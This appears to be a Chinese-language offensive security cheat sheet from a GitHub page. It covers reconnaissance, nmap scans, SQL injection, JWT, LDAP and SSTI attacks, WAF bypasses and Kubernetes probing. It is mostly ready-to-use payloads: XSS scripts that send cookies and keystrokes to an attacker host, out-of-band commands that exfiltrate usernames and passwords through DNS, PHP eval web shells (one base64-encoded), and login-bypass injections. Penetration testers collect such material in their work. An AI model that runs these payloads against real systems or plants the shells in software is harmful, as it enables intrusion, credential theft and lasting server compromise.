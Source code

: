 # 思路
subfinder/amass 子域探测
https://search.censys.io/
https://www.shodan.io/
Shodan Dork：
Ssl.cert.subject.cn:"sub.target.com" 200
google / duckduckgo.com
site:blog.intigriti.com csrf
site:pentester.land csrf
site:book.hacktricks.xyz csrf
site:cloud.hacktricks.xyz csrf
site:hackerone.com/reports csrf
site:infosecwriteups.com csrf
site:weekly.infosecwriteups.com csrf
site:portswigger.net Cheatsheet

# nmap
nmap -sn ip/idor
nmap -sS/-sT --min-rate 10000 -p- ip -oA path
nmap -sU --top-ports 20 ip -oA path
nmap -sU --min-rate 10000 -p- ip -oA path
grep open path | awk -F '/' '{print $1}' | paste -sd ','
nmap  -sT -sV -sC -O -p+ports ip -oA path
nmap -sS/-sT --script=vuln -p+ports ip -oA path
nmap -sU --top-ports 20 ip -oA path

# service
smb--445---smbmap/smbclient/crackmapexec/enum4linux
nfs--------showmount -e  ip  / mount -t nfs ip:/path  filedir 
ftp---21-----anonymous


# NO nmap 
linux/bash script
for i in {1..254};do ping -c 1 -w 1 192.168.1.$i | grep from;done

#
![安全编码的输入清理技术](https://github.com/isecren/Security/assets/7948479/6b619965-6874-4d95-a5a0-c0a42f2dc605)

# Tools
burpsuite
git-dumper  git-dumper http://example.com/.git/ 输出
Weevely - 武器化的 Web shell  weevely generate <password> <path>/weevely <URL> <password> [cmd]

Gau

amass enum -active -d $1 -brute -w ~/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o amass.txt
cat amass.txt | aquatone -ports xlarge -out aqua_$1
nuclei -l aqua_$1/aquatone_urls.txt -t ~/nuclei-templates -es info -o nuclei_$1.txt

httpx 进行HTTP测试
httpx -l allDomains.txt -o liveDomains.txt 
httpx -l liveDomains.txt -srd subsScreens -ss  屏幕截图

模糊测试
当我开始对目录进行模糊测试时，不管状态代码是 200,404 还是 403。大多数时候 Gems 都在这些页面内。
ffuf 工具
模糊测试列表：
/jenkins/script

# SQL
' or 1=1 -- -
' and 1=1 -- -
' and ''='
+AND+1=1'+ — +- 
+AND+1=1'+%23[#]
xxx' union select 1,2,3; -- -
'XOR(if(now()=sysdate()%2Csleep(15)%2C0))XOR'Z
XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z

database
Oracle ==> SELECT banner FROM v$version
Microsoft SQL Server ==> SELECT @@version
PostgreSQL ==> SELECT version()
MySQL ==> SELECT @@version
MySQL & MSSQL:       ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,1))='4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
Oracle:              ?lugu=316+AND+(SELECT+SUBSTR(version(),1,1)+FROM+DUAL)='4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
PostgreSQL:          ?lugu=316+AND+(SELECT SUBSTRING(version(), 1, 1) = '4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
INFORMATION_SCHEMA.SCHEMATA ：是存储数据库元数据的系统目录表。
SCHEMA_NAME ：是该表中存储数据库名称的列。
LIKE 'a%' :是过滤数据库名称的条件，仅返回以字母“a”开头的数据库名称。
AND + ( SELECT + 1 + FROM + INFORMATION_SCHEMA.SCHEMATA + WHERE + SCHEMA_NAME + LIKE + '$a$%' ) %3d1




#权限提升
history
search info:grep -R -i pass /home/* 2>/dev/null
bash version < 4.3
shellshock  check cmd:
env x='() { :; };echo "it is vulnerable"' bash -c date




# out of band 带外数据
select load_file(CONCAT('\\\\',(SELECT+@@VERSION),'.',(SELECT+user),'.',(SELECT+password),'.','v950miufeuuf5qgjf4bzv77v0m6du9iy.oastify.com\\vfw'))
curl `whoami`.yeg3rlzijxziatlmk7g20acy5pbgzbn0.oastify.com
curl $(whoami).yeg3rlzijxziatlmk7g20acy5pbgzbn0.oastify.com


paramspider/arjun 参数测试
eyewitness 检测url，自动屏幕截图
waybackurls -dates http://xxxx/xxx.php   存档数据
SQL 工具
sqlmap/ghauri


# XSS bypass waf
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
<iframe %00 src=\"javascript:prompt(1)\"%00>
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
"><svg onlod=confirm()>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``¹//
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)> url encode + url encode
"><img src=x onerror=alert(document.cookie)>
<href="url" onmouseover=alert(1)>
<iframe %00 src=\"javascript:prompt(1)\"%00>
</script><script>alert(document.domain)</script> url encode
javascript:var{a:onerror}={a:alert};throw%20document.cookie url encode

尝试：
try URL encode
try double URL encode.
try triple URL encode.
try base64 encode.
文件上传 XSS---修改文件名参数以包含 XSS 负载
a) <img src=x onerror=alert('XSS')>.png
b) "><img src=x onerror=alert('XSS')>.png
c) "><svg onmouseover=alert(1)>.svg
d)<<script>alert('xss')<!--a-->a.png



# 原型污染是一种javascript漏洞，攻击者可以将任意属性添加到全局变量原型，然后这些属性可能被用户定义的对象继承。

# jwt 
bypass 绕过验证
CVE-2023-30845 通过使用 X-HTTP-Method-Override 请求标头绕过 JWT 检查！
curl http://example.com/api -X POST -H 'X-HTTP-Method-Override: PUT' -H 'Content-Type: application/json' --data '{"username":"xxx"}'
未经验证的签名--忘记验证签名了
越权漏洞等

签名有验证缺陷--NONE算法 alg->none
jwt_tools.py jwt-token -X a

破解弱共享密码
注意：必须是HMAC-SHA算法
jwt_tools.py jwt_token -C -d jwt_secrets.txt
echo jwt_token > jwt_file
hashcat -a 0 -m 16500 jwt_file  jwt_secrets --force

算法混淆攻击 RSA->HS256
构造jwt
jwt editor keys插件
1、获取公钥 public key
/jwks.json  /.well-known/jwks.json等
2、JWT Editor Keys 点击 NEW RSA KEY，复制jwks.json种key的值到jwk框，点击ok
copy public key as PEM 对其base64编码
3、点击new symmetric key 点generate 并替换K的值为pem编码后的值
4、回到请求体jwt，进行sign签名

标头参数住入
Jwk 注入
jwt editor keys插件
New rsa KEY generate
回到请求体jwt，attack embedded jwk
Jku 
jwt editor keys插件
1、生成一个RSA密钥 copy public key as jwk
2、创建一个webserver URL http://xxxx.xxx/jwk
3、回到请求体jwt，修改kid，添加jku,替换sub
kid 注入
jwt editor keys插件
1、生成new symmetric key generate
2、对称密钥 k值覆盖为null (base64编码)
3、回到请求体jwt，修改kid的值为../../../../../../dev/null
4、修改sub,点击 sign 签名


# LDAP
payload:")(cn=))(|(objectClass=*"
"(&(cn=))(|(uid=))(|(objectClass=*))(userpassword=[password])"
login bypass
user=*
password=*
--->(&(user=*)(password=*))
user=*)(&
password=*)(&
-->(&(user=*)(&)(password=*)(&))
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))

# webshell
.htaccess文件
AddType指定
AddType application/x-httpd-php .png
将.png当作php文件解析
木马
上传文件，php扩展文件.phtml .phar .ptar
<?php phpinfo(); ?>
<?php 
@eval($_POST['cmd']);
?>
<?php
@eval($_REQUEST['cmd']);
?>
<?php system("whoami"); ?>
<?php
file_put_contents("shell.php","<?php @eval($_POST['cmd']); ?>");
file_put_contents("shell.php",base64_decode("PD9waHAgCkBldmFsKCRfUE9TVFsnY21kJ10pOyAKPz4="));
?>

#  Kubernetes 
使用kubectl get services --all-namespaces列出集群中的所有服务，然后查找类型为“LoadBalancer”或“NodePort”的服务。
如果您的集群中设置了 Ingress 控制器，您也可以使用此命令kubectl get ingress --all-namespaces
获取Kubernetes 集群中公开的服务
这种错误配置允许通过向节点的 IP 和端口组合发送请求来与反向代理直接通信，完全绕过负载均衡器
curl -i -s -k -X $’GET’ \
-H $’Host: service-1.kube.com’ \
$’https://<NODE-IP:8888>/'
发现敏感服务
1、crt.sh   "k8s.%.com"
2、github
3、端口扫描 Kubernetes 集群中可能会开放以下端口（取自Kubernetes 研讨会演示）：
4、探索网络插件  cAdvisor 
查找集群配置错误
当 Kubernetes API 暴露于远程交互时，此部分非常有用。
1. 检查API服务器的匿名访问
2. 检查ETCD匿名访问
如果ETCD可以匿名访问，您可能需要使用etcdctl工具。以下命令将获取存储的所有密钥：
etcdctl –endpoints=http://<MASTER-IP>:2379 get / –prefix –keys-only
3、检查Kubelet（只读端口）信息暴露情况

# bypass waf
alert = window[“al”+“ert”]。通过将“alert”关键字分成两部分并使用串联，我们可以避开 WAF 可能使用的简单关键字过滤器
用这个 `` 绕过括号 ()
用正斜杠 (/) 替换空格。此更改有助于避免 WAF 过滤器检测到可能寻找特定字符组合的情况
对符号进行编码是绕过 WAF 保护的重要组成部分。以下是该技术中使用的符号编码：
< 编码为 %3c
> 编码为 %3e
“ 编码为 %22
[ 编码为 %5b
] 编码为 %5d
` 编码为 %60
未编码有效负载：<svg/onload=window[“al”+”ert”]`1337`>

# IDOR 不安全直接对象引用
需要两个账号进行测试

# 敏感信息泄露
1、发现敏感信息-key
2、进行 Google 搜索 使用键名后跟术语“api docs curl”进行 Google 搜索，发现API接口

# SSTI 
payload: {{7*7}} 得到结果49 证明存在
读取etc/passwd  {{system('cat /etc/passwd')}}

路径遍历的根本原因是缺乏路径规范化
os.path.normpath(path).startswith("/app/resources")
注入漏洞的根本原因在于将数据视为代码
将数据与代码分离并对输入执行上下文转义。这种技术的一个主要例子是参数化查询。它隔离数据库查询的输入并执行转义




# 源码审计
SonarQube 这样的工具
XSS:
grep -Ri "\$_" . | grep "echo"
grep -Ri "\$_GET" . | grep "echo"
grep -Ri "\$_POST" . | grep "echo"
grep -Ri "\$_REQUEST" . | grep "echo"

Command execution:
grep -Ri "shell_exec(" .
grep -Ri "system(" .
grep -Ri "exec(" .

Code execution:
grep -Ri "eval(" .
grep -Ri "assert(" .
grep -Ri "preg_replace" . | grep "/e"

SQL Injection:
grep -Ri "\$sql" .
grep -Ri "\$sql" . | grep "\$_"

RFI/LFI:
grep -Ri "file_include" .
grep -Ri "include(" .
grep -Ri "require(" .
grep -Ri "include_once(" .
grep -Ri "require_once(" .
grep -Ri "require_once(" . | grep "\$_"
